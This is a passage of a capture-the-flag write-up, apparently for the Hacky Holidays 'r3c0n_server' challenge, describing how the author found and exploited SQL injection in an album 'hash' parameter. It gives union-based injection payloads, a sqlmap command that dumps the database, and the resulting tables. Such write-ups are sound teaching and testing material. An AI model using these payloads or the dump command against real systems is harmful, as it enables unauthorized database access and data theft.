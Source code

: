 ```
{"image":"r3c0n_server_4fdk59\/uploads\/9b881af8b32ff07f6daada95ff70dc3a.jpg","auth":"e934f4407a9df9fd272cdb9c397f673f"}
```

I immediately thought of some sort of SSRF / local file inclusion but the content of the `image` parameter was protected by the `auth` value, which looks like a hash. When changing the `image` parameter to something else, the error message `invalid authentication hash` gets returned. After trying to crack the hash I came to the conclusion that it is possibly server-generated.

Next, I tried to find the API which was mentioned on the challenge site. It was pretty straightforward to find the API's base URL under `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api`:

{F1138951}

I thought that it was weird that so many different and very specific status codes were explained here. When trying to find endpoints under `/r3c0n_server_4fdk59/api/*`, I had no success at all, the only thing I got back from the server was the message `{"error":"This endpoint cannot be visited from this IP address"}`. 

Well, that sounds like SSRF again... After trying to play with the `Host` header and `X-Forwarded-For`,... without success, I again looked at the requests I got in Burp. Finally, I found out that SQL injection was possible in the `hash` parameter when loading an album:

After finding out that it is possible to use `union` and how many fields to add for getting the same number of columns than the original query, I finally even got output: When using `5' union all select '0',0,'albumtitle' -- -` as payload in the `hash` parameter, `albumtitle` was used as title of the album, and no entries were shown. However, when using an existing album ID as first field in the `union` query, e.g. `0'+union+all+select+'1',0,'albumtitle'+--+-`, the two image links from that category showed up.

It was time to get some more information about the database structure. Because the SQL injection could be performedd by using a single request, I used sqlmap for dumping the database schema as follows:

```
$ sqlmap -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k --dump
```

The following entries were found:

```
Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+

Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+
```

